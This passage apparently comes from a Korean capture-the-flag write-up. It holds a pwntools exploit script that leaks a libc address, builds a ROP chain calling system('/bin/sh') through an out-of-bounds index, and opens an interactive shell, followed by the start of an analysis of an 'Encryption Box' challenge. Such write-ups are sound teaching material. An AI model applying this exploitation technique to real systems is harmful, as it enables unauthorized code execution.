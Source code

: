 ```python
print_addr(259)

leak = int(p.recvline().decode())
print(hex(leak))
libc_base = leak - 0x2a1ca
system = libc_base + 0x58740
binsh = libc_base + 0x1cb42f
popret = libc_base + 0x10f75b
ret = libc_base + 0x10f75c

payload = [str(ret), '+', '0']
payload = ' '.join(payload)
p.sendlineafter(b'cmd > ', b'1')
p.sendlineafter(b'idx: ', '259')
p.sendlineafter(b': ', payload)

payload = [str(popret), '+', '0']
payload = ' '.join(payload)
p.sendlineafter(b'cmd > ', b'1')
p.sendlineafter(b'idx: ', '260')
p.sendlineafter(b': ', payload)

payload = [str(binsh), '+', '0']
payload = ' '.join(payload)
p.sendlineafter(b'cmd > ', b'1')
p.sendlineafter(b'idx: ', '261')
p.sendlineafter(b': ', payload)

payload = [str(system), '+', '0']
payload = ' '.join(payload)
p.sendlineafter(b'cmd > ', b'1')
p.sendlineafter(b'idx: ', '262')
p.sendlineafter(b': ', payload)

p.sendlineafter(b'cmd > ', b'3')
p.interactive()
```

---

## Encryption Box - [pwnable]

> **💎 998 pts / 2 solves
> 🩸 *First Blood***

### Analysis

- `encrypt`
    - 데이터를 입력 값을 받고 key와 함께 암호화 진행 후 stack에 저장
- `set the key`
    - 암호화에 사용될 랜덤한 key 값을 생성하고 bss 영역에 저장
    - `/dev/urandom` 에서 랜덤한 key 값을 만듬
